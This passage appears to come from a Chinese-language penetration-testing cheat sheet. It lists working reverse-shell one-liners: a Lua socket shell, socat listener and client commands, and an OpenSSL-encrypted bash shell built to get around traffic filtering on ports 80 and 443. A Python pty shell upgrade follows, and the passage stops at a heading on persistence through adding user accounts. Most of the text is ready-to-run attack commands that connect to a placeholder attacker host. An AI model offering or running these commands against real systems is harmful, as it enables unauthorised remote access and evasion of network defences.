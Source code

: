 ```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('x.x.x.x','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

#### 3. 其他方法

##### 1. socat

攻击机监听：

```bash
socat file:`tty`,raw,echo=0 tcp-listen:port
```

上传socat到目标主机，然后执行：

```bash
socat exec:'bash -li',pty,stderr,setid,sigint,sane tcp x.x.x.x:port
```

##### 2. 只有80和443端口且反弹shell流量被拦截

方法论：加密流程，绕过拦截

Step 1：VPS上生成SSL证书的公钥/私钥对

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Step 2：VPN监听反弹shell

```bash
openssl s_server -quiet  -key key.pem -cert cert.pem -port 443
```

Step 3：连接

```bash
mkfifo /tmp/v4ler1an;/bin/bash -i < /tmp/v4ler1an 2>&1 |openssl s_client -quiet -connect x.x.x.x:443 > /tmp/v4ler1an
```

此时的shell存在缺陷（无法命令补全等），通过以下方法修复：

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

`pty`是一个伪终端模块。`pty.spawn(argv[, master_read[, stdin_read]])`产生一个进程，并将其控制终端与当前进程的标准输入输出连接。这通常用于阻挡坚持从控制终端读取的程序。向函数 master_read 和 stdin_read 传递了文件描述符，它们应从中读取，并且它们应始终返回字节字符串。两个函数的默认实现在每次函数被调用时将读取并返回至多 1024 个字节。 会向 master_read 回调传入伪终端的主文件描述符以从子进程读取输出，而向 stdin_read 传入文件描述符 0 以从父进程的标准输入读取数据。
在 3.4 版更改: spawn() 现在从子进程的 os.waitpid() 返回状态值

## 二、权限维持方法

### 1. 一句话添加用户和密码

添加普通用户：
